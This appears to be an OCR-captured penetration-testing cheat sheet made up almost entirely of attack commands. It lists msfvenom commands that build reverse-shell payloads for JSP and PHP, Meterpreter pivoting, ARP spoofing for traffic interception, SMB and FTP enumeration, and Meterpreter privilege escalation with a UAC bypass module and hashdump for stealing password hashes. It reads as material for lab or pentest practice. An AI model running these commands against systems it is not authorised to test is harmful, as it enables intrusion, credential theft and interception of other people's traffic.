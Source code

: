```
**WAR**\
msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST= LPORT= -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter\_reverse\_tcp LHOST= LPORT= -f raw > shell.php\
cat shell.php | pbcopy && echo '\<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

### Metasploit Meterpreter autoroute

run autoroute -s 10.10.10.0/24

### ARPSpoof

echo 1 > /proc/sys/net/ipv4/ip\_forward\
arpspoof -i -t -r\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

### SMB Enumeration

**Get shares, users, groups, password policy**\
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-\* 10.10.10.10 -v

**Access Share**\
smbclient //10.10.10.10/share\_name

### FTP Enumeration

nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v

**Login to FTP server**\
ftp 10.10.10.10

### Meterpreter

ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM

**CHECK UAC/Privileges**\
run post/windows/gather/win\_privs

**BYPASS UAC**\
_Background the session first_\
exploit/windows/local/bypassuac\
set session

**After PrivEsc**\
migrate \<pid>\
hashdump

### Windows Command Line

**To search for a file starting from current directory**\
dir /b/s "\*.conf\*"\
dir /b/s "\*.txt\*"\
dir /b/s "\*filename\*"
```